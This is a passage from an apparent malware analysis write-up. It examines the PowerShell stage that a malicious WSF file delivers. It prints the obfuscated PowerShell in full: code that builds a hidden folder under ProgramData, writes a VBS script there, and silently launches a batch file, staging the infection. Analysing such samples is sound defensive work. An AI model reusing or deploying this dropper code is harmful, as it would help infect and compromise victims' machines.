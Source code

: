 After downloading the file, the next step is to begin the analysis anew, this time focusing on the actual malware or file that the WSF is designed to deliver to the victim's system, which is PowerShell as shown in Fig 6.

![Character Encoding 1](/assets/images/zoom/character_enc_1.png)
*Figure 6: Character Encoding Example*

### Downloaded Powershell Analysis

Looking the malicious code as show in the Fig 6;


```powershell

sET-iTem  vaRiaBlE:a6p ( [type]("{2}{1}{0}" -f 'E','.Fil','IO') );  ${D} =  ((("{2}{5}{4}{3}{0}{6}{1}" -f 'Datap','ualsp8P','C','ram','g',':p8PPro','8PMusicp8PVis'))-rEplAcE([CHar]112+[CHar]56+[CHar]80),[CHar]92)
                                                                                                         
&("{0}{1}"-f'New-','Item') -ItemType ("{2}{1}{0}" -f 'y','ctor','Dire') -Path ${d} -Force | &("{2}{1}{0}" -f'l','ul','Out-N')                                                                                     
                                                                                                         
.("{0}{1}" -f'slee','p') -Seconds 5 


${co`NT`ENt} = @'
On Error Resume Next

Sub zjte
    Dim sbyjn
    Set sbyjn = CreateObject("WScript.Shell")
    sbyjn.Run "C:\ProgramData\Music\Visuals\VsEnhance.bat", 0, True
End Sub
zjte
'@

  (  geT-vARiaBlE ('a'+'6P')).vAluE::("{1}{0}{3}{2}" -f'rite','W','llText','A').Invoke("$d\VsLabs.vbs" , ${CO`N`TEnT})
  
```